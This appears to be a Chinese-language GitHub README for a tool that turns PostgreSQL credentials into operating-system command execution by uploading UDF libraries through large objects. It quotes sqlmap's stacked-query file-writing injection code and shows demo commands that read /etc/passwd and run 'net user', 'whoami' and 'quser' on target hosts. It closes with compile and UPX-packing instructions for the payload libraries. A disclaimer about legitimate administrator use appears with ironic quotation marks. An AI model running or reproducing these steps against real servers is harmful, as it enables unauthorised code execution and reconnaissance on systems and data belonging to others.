





# hack_postgres

### 前言

PostgreSQL在国外的流行程度不亚于MySQL，简称postgres。比如你kaili linux上的Metasploit数据库服务使用的就是PostgreSQL。

fuck_postgres不是什么黑客攻击工具，他并不是要去hack什么，只用于便捷地使用PostgreSQL自定义函数来执行系统命令，适用于数据库管理员知道postgres密码却不知道ssh或RDP密码的时候在服务器执行系统命令。

一切攻击都是违法行为，非管理员请不要。。。使用此工具的一切违法行为与本人无关。

经测试，sqlmap上对于postgres的--os-shell无效，so文件和dll文件也有问题，语句略坑，所以我抽时间写一个，方便各位“管理员”。

sqlmap该模块的写文件语句详见filesystem.py:
```
def stackedWriteFile(self, wFile, dFile, fileType, forceCheck=False):
	wFileSize = os.path.getsize(wFile)
	content = open(wFile, "rb").read()

	self.oid = randomInt()
	self.page = 0

	self.createSupportTbl(self.fileTblName, self.tblField, "text")

	debugMsg = "create a new OID for a large object, it implicitly "
	debugMsg += "adds an entry in the large objects system table"
	logger.debug(debugMsg)

	# References:
	# http://www.postgresql.org/docs/8.3/interactive/largeobjects.html
	# http://www.postgresql.org/docs/8.3/interactive/lo-funcs.html

	inject.goStacked("SELECT lo_unlink(%d)" % self.oid)
	inject.goStacked("SELECT lo_create(%d)" % self.oid)
	inject.goStacked("DELETE FROM pg_largeobject WHERE loid=%d" % self.oid)

	for offset in xrange(0, wFileSize, LOBLKSIZE):
		fcEncodedList = self.fileContentEncode(content[offset:offset + LOBLKSIZE], "base64", False)
		sqlQueries = self.fileToSqlQueries(fcEncodedList)

		for sqlQuery in sqlQueries:
			inject.goStacked(sqlQuery)

		inject.goStacked("INSERT INTO pg_largeobject VALUES (%d, %d, DECODE((SELECT %s FROM %s), 'base64'))" % (self.oid, self.page, self.tblField, self.fileTblName))
		inject.goStacked("DELETE FROM %s" % self.fileTblName)

		self.page += 1

	debugMsg = "exporting the OID %s file content to " % fileType
	debugMsg += "file '%s'" % dFile
	logger.debug(debugMsg)

	inject.goStacked("SELECT lo_export(%d, '%s')" % (self.oid, dFile), silent=True)

	written = self.askCheckWrittenFile(wFile, dFile, forceCheck)

	inject.goStacked("SELECT lo_unlink(%d)" % self.oid)

	return written
```

filesystem.py line65，是将dll文件base64编码解码，整个写入到pg_largeobject的一个page，在linux某些版本一定会报错的。 
每page容量为4096字节，如果是hex，只能容纳2kb的数据。

##### 工具特点：

> 1. 不限平台，可用于管理windows和linux上的postgres
> 2. 不限版本，udf有效版本内可自行添加库文件到工具目录
> 3. hex+分段写入large obj，无page数据过大问题
> 4. 。。。


#### USAGE

```
usage: fuck_postgres [-h] [-a HOST] [-o PORT] [-u USER] [-p PASSWD]
                     [-d DATABASE] [-e EXECUTE]

optional arguments:
  -h, --help            show this help message and exit
  -a HOST, --host HOST  pgsql server ip
  -o PORT, --port PORT  pgsql Port
  -u USER, --user USER  pgsql UserName
  -p PASSWD, --passwd PASSWD
                        pgsql password
  -d DATABASE, --database DATABASE
                        pgsql database
  -e EXECUTE, --execute EXECUTE
                        command for UDF to execute
```

##### 演示

管理PostgreSQL 9.2.24 running on linux 64：

```
./fuck_postgres -a 192.168.0.30 -u postgres -p postgresu -e "cat /etc/passwd"
```



```
./fuck_postgres -a 192.168.0.30 -u postgres -p postgres -e "net user & whoami"
```




管理PostgreSQL 8.2.21 running on windows 32：

```
fuck_postgres.exe -a 192.168.0.30 -u postgres -p postgres -e "quser & net user & whoami"
```



```
fuck_postgres.exe -a 192.168.0.47 -u postgres -p postgres -e "ls -al"
```



##### 暂时收录了以下版本postgres的库文件：



各版本源码地址：`https://www.postgresql.org/ftp/source`

##### 以下来自@zcgonvh（https://www.t00ls.net/thread-30179-1-1.html）

我在拜读前辈文章时，叹服前辈对待技术研究的态度。

udf源文件在此(https://github.com/sqlmapproject/udfhack/)

在 linux 编译so文件简单许多，只需要一条命令： 
```
gcc sys_eval.c -shared -fPIC -I$PGSRC/include/server -o /tmp/8.2_x64.so 
```
其中$PGSRC 为 postgres 源码的路径或安装路径。 

windows上编写 postgres 的 UDF 需要引用其提供的头文件，在 windows 下这些头文件的位置为： 

`%PGDIR%\include `
其中`%PGDIR%`为 postgres 的安装路径 而需要引用的头文件目录并不仅仅只有这个，以下两个目录也是必须的： 

```
%PGDIR%\include\server 
%PGDIR%\include\server\port\win32 
```
这三个路径都需要加到工程的头文件目录列表中。 
同时，需要将 `%PGDIR%\lib `
添加至 lib 文件目录列表中。  
在编译时，必须使用 vs 进行编译，使用 vc6 编译会失败（原因未知）。 
同时也不能使用 release 模式生成，release 的某个选项会导致编译出的 dll 不能正常使用（vs2008 出现此情况，其余版本未测试）。 
为了防止对方未安装 vc 运行库，务必将 配置属性->C/C++->代码生成 中的 代码生成 选项修改为多
线程/MT，以保证在任何情况下均能够正常运行。 
最后，为了尽可能的减小生成文件体积，需要修改 配置属性->链接器 中以下几个参数： 
清单文件->生成清单，修改为否 调试->生成调试信息，修改为否 
优化->引用，修改为是 
优化->启用 COMDAT 折叠，修改为是  
在 vs2008 下使用以上设置，编译成功。 另：建议将生成的动态链接库文件使用 UPX 进行压缩，这样可以有效地减少文件体积。UPX 的下载地
址为： 
http://upx.sourceforge.net/#downloadupx  


欢迎有vs环境的童鞋编译提交新的库文件。

##### 参考鸣谢：@zcgonvh @anlfi @bt2312 @Catchermana
